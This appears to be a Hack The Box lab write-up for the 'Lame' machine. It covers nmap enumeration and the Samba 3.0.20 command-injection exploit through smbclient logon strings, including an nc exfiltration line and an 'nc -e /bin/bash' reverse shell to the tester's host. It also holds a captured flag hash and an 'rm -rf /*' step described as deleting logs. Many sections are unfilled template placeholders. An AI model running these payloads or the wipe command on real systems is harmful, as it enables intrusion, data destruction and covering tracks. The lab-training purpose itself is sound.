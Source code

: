### Hack The Box Writeup: Lame

## Overview

- **Machine Name**: Lame
- **Difficulty**: Easy
- **Platform**: Hack The Box
- **Operating System**: Linux
- **Key Objectives**: 
- **Date Solved**: May 2025

Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement. 

## Tools Used

- **Enumeration**: nmap
- **Exploitation**: 
- **Privilege Escalation**: 
- **Other**: 

## Methodology

### Initial Enumeration

```bash
# Ping machine to see if thus one is power up
ping -c 1 10.10.10.3

nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.10.3 -oG allPorts
nmap -sCV -p21,22,139,445,3632 10.10.10.3 -oN targeted

```

### Exploitation
```bash
# Wtih the version of the ftp system we can search vulnerabilities in serachsploit
   6   │ 21/tcp   open  ftp         vsftpd 2.3.4
   7   │ |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
   8   │ | ftp-syst: 
   9   │ |   STAT: 
  10   │ | FTP server status

searchsploit -x unix/remote/49757.py # to see file
searchsploit -m unix/remote/49757.py # to move file to current directory

mv 49757.py ftp_exploit.py
# Its a rabbit hole! We need to search another way to vuln

searchsploit Samba 3.0.20

smbclient -L 10.10.10.3
smblcient //10.10.10.3/tmp

# In smb
smb: \> logon "/=`nohup ping -c 1 10.10.15.66`"

# Ooen a tcmpdump in current machie to view tcmp traces
tcpdump -i tun0 icmp -n

# ans
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:22:46.174492 IP 10.10.10.3 > 10.10.15.66: ICMP echo request, id 8985, seq 1, length 64
13:22:46.174570 IP 10.10.15.66 > 10.10.10.3: ICMP echo reply, id 8985, seq 1, length 64

# We can do RCE

smb: \> logon "/=`nohup whoami | nc 10.10.15.66 443`"
nc -nlvp 443 # localmachine

# ans
root

# Send a bash to local machine
smb: \> logon "/=`nohup nc -e /bin/bash 10.10.15.66 443`"
nc -nlvp 443
```

\[Describe the outcome, e.g., initial shell access, user-level credentials.\]

### Privilege Escalation

```bash
# STTY config

cd /home
cd makis
cat user.txt
# 01ab948279f1341d221facee0ca74d53

cd /root
cat root.txt

find \-name usert.txt

cd /
(rm -rf /*) 2>/dev/null # deelte all logs
```

\[Describe the final access achieved, e.g., root shell, admin credentials.\]

## Challenges Faced

\[List specific challenges encountered, e.g., difficulty identifying the correct exploit, dealing with restricted shells.\]

- **Challenge 1**: \[e.g., Nmap scans were blocked by a firewall.\]
  - **Solution**: \[e.g., Used --script-args to bypass restrictions.\]
- **Challenge 2**: \[e.g., Password cracking took too long.\]
  - **Solution**: \[e.g., Optimized wordlist with custom rules in Hashcat.\]

## Lessons Learned

\[Summarize key takeaways from solving the machine.\]

- Learned to identify \[specific vulnerability, e.g., outdated Samba versions\] through thorough enumeration.
- Improved skills in \[technique, e.g., manual exploit development for CVE-XXXX-XXXX\].
- Gained experience with \[tool, e.g., LinPEAS for privilege escalation\].

## References

- \[Link to HTB machine page, e.g., https://app.hackthebox.com/machines/Lame\]
- \[CVE details, e.g., https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-XXXX-XXXX\]
- \[Tool documentation, e.g., https://nmap.org/book/man.html\]
- \[Relevant blog post or tutorial, e.g., https://example.com/samba-exploit-guide\]

---

*Written by edibauer, \[05 2025\]. Feedback welcome at \[github.com/ediedi\].*